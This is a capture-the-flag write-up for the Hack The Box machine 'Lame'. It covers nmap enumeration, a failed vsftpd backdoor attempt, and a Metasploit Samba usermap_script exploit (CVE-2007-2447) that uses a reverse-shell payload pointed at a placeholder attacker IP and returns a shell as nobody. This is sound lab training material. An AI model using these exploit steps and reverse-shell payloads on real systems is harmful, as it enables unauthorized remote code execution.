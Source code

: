# HTB - Lame 🐧
**Difficulty:** Easy  
**OS:** Linux  
**IP:** 10.10.10.3  
**Date Completed:** 2025-04-08  
**Author:** Sabin Shrestha

---

#📡 Enumeration
  1.🔍 Full TCP Port Scan with Nmap
    bash
      nmap -sC -sV -p- 10.10.10.3
    Output:
      PORT     STATE SERVICE     VERSION
      21/tcp   open  ftp         vsftpd 2.3.4
      22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
      139/tcp  open  netbios-ssn Samba smbd 3.X (workgroup: WORKGROUP)
      445/tcp  open  microsoft-ds Samba smbd 3.0.20-Debian
  2.🔍 Service Analysis
  🔸 FTP (Port 21)
      -Service: vsFTPd 2.3.4
        Known for CVE-2011-2523, which opens a bind shell on port 6200 when a :) is used in the username.
      -Tried:
        Metasploit module: exploit/unix/ftp/vsftpd_234_backdoor
          (Manual FTP login with user:)
          Result: No bind shell on port 6200 → likely patched or blocked.
  🔸 Samba (Ports 139 & 445)
  　  Service: Samba 3.0.20-Debian
      -Vulnerable to CVE-2007-2447 — user map script injection vulnerability.
      Used Metasploit:
        -use exploit/multi/samba/usermap_script
        -set RHOSTS 10.10.10.3
        -set PAYLOAD cmd/unix/reverse
        -set LHOST <attacker_IP>
        -run
        #Result: Successfully got a reverse shell as nobody.

  🔸 SSH (Port 22)
    -OpenSSH 4.7p1 was detected.
    #No credentials or exploits attempted — ignored for this challenge.

🧠 Summary
1.FTP looked exploitable but turned out to be a false positive – classic example of why banners alone aren’t enough.
2.Samba vulnerability provided a reliable foothold using a classic Metasploit module.
3.This foothold enabled post-exploitation and privilege escalation that followed.

💣 Initial Access
🎯 Exploit Used: Samba usermap_script (CVE-2007-2447)
1.After identifying that Samba 3.0.20-Debian was running on ports 139 and 445, I confirmed that it was vulnerable to the classic user map script command injection vulnerability.
2.I used Metasploit’s built-in module to exploit it and gain shell access:
  -use exploit/multi/samba/usermap_script
  -set RHOSTS 10.10.10.3
  -set PAYLOAD cmd/unix/reverse
  -set LHOST <your_IP>
  -run
  #Once executed, the target connected back with a reverse shell:
    whoami
    nobody
    #The shell dropped in as the nobody user, which is a low-privileged account typically used for guest or anonymous services.

🛠 Notes:
-The exploit works by abusing Samba's internal username map script feature, injecting arbitrary commands through a crafted username string.
-It’s a command injection, not a memory corruption — so it's reliable, especially on older systems.
-Nocredentials were needed — full unauthenticated remote code execution.

🔑 Outcome:
-Gained initial foothold on the system
  user: nobody
-Shell type: Reverse shell (Bash)

2. Privilege Escalation
    #not performed

3. 🧠 Takeaways
  1.Always try multiple exploitation paths — what looks obvious (FTP) may be a decoy.
  2.Use classic tools like nmap + linpeas.sh + Metasploit to rapidly identify and exploit older systems.
  3.Keep privilege escalation exploits handy for old kernels — they often work on legacy boxes like Lame.
